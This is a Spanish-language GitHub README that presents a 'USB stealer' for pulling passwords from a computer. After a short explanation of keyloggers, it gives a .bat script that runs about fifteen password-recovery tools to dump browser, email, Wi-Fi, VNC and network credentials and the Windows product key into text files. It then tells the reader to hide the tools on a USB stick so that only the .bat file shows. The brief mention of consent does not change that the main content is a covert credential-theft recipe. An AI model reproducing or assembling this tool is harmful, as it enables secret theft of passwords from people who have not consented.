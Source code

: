 
 # USB Para extraer contraseñas de un ordenador
 
La tecnología ha avanzado tanto, que se ha desarrollado una forma de robar o registrar información de una manera disimulada en cualquier ordenador. Este método es llamado keylogging, y puede ser beneficioso o malicioso según sea el uso que se le de, ya que si eres de los que descargan programas o introducen en el ordenador dispositivos USB constantemente puedes que seas víctima de esto.

Existen personas que usan este método de forma beneficiosa. Por ejemplo, las empresas usan los keylogger para registrar y ver el avance del trabajo de sus empleados, sin necesidad de estar constantemente pidiendo informes. Esta es una manera de organizarse y optimizar al máximo las labores de oficina. Sin embargo, es un tema tan delicado que solo puede hacerse con el consentimiento del empleado y con ciertas limitaciones para proteger información personal del mismo. 

<img align="center" height="480" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/6d78f6c0-fe7c-40e1-9b0f-dc90c309c956"/>

## 💡 ¿Qué y para qué sirve un USB Keylogger “roba datos” o los llamados “Stealers” de información?
Un keylogger también es conocido como un captador de pulsaciones de teclas o un roba datos. Este es un programa o que se encarga de guardar o registrar todo lo que escribes al utilizar el teclado. Todo lo que recopila inmediatamente lo guarda en un fichero, o también se puede programar para que la información se envíe por internet a algún correo electrónico diariamente o semanal de manera automática.

Hay dos formas para poder hacer esto. La primera es el keylogger software (el más usado), que forman parte de malware como los troyanos o rootkits. Este puede ser enviado por un correo o por cualquier otro archivo descargado del internet. El segundo es el keylogger hardware (el cual no es muy habitual), que consiste en infectar con el programa un disco extraible USB e introducirlo en el ordenador el que se deseen extraer los datos.

No esta demás decir, que no siempre un keylogger puede ser una malware, perjudicial para tu PC, ya que hay algunas empresas que ofrecen este tipo de servicios para que el cliente tenga cierto control de sus ordenadores cuando es utilizado por otros, y también es muy usado por los padres para monitorear lo que hacen sus hijos.

<img align="center" height="524" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/cae4f52a-29ce-4d41-af99-e88315468fe8"/>

## 📚 Ejemplo

En este ejemplo, podrás extraer las contraseñas almacenadas en los navegadores web, también extraerás todas las contraseñas de internet, correos, y la key del sistema operativo. Primero tendrás que descargar este repositorio, o sino, descargar solo los programas que te interesan y luego haces lo siguiente:

Abres un bloc de notas y pegas este codigo, dependiendo que programas quieres ejecutar y lo guardas como archivo .bat

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Por ultimo solo copia los archivos descagados y ocultalos en alguna usb, solo dejando el .Bat

## 📚 Nota Importante
Algo a destacar es que todos los archivos deben estar en una misma carpeta, incluyendo el ".Bat" De lo contrario no funcionará
